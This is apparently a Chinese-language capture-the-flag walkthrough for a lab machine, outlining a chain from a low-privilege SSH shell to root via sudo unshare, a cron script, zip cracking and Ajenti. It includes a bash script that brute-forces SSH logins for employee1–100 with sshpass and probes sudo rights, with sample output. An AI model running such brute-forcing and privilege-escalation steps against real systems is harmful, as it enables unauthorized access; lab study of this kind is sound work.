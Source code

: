 

- employee1:ssh banner发现问题；
    - 根据提示获得低权限shell
- employee64:考验脚本编写能力（ssh爆破）
    - bash脚本批量连接

- programmer:获取sudo shell
    - 通过unshare切换到sudo用户
    - `$ su - employee64`
    - `$ sudo -u programmer unshare`
- vanshal:crontab计划获取shell
    - pspy tool to detected
    - /media/programmer/scripts/backup.sh
- root:secert zip file
    - zip password crack
    - login ajenti to run root shell.

写个脚本来批量跑试试看：
```
#!/bin/bash

pwn () {
  read -p 'target ip: ' ip
  sleep 2
  for data in {1..100}
  do
      echo 'Try: ' $data
      sshpass -p 'employee'$data ssh employee$data@$ip 'echo employee'$data' | sudo -S -l'
      printf "\n"
  done
}

pwn
```
for一下用户名密码{employee+$data}in{1..100}，使用sshpass进行批量ssh连接认证，并尝试`sudo`;
失败如下：
```
[sudo] employee100 的密码：对不起，用户 employee100 不能在 localhost 上运行 sudo。
```
成功：
```
[sudo] employee64 的密码：匹配 %2$s 上 %1$s 的默认条目：
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

用户 employee64 可以在 localhost 上运行以下命令：
    (programmer) /usr/bin/unshare
```
所以用户employee64是拥有sudo权限；




